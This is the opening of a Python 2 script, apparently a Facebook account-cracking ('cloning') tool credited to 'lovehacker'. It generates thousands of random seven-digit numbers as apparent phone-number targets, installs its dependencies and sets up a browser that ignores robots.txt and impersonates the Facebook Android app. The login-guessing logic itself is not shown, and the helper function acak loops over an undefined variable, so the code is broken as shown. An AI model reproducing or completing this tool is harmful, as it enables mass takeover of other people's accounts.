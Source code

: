 # Writ-r#!/usr/bin/python2
#coding=utf-8
#The Credit For This Code Goes To lovehacker
#If You Wanna Take Credits For This Code, Please Look Yourself Again...
#Reserved2020
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(2000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 Cloning.py')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'God by Frends '
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)
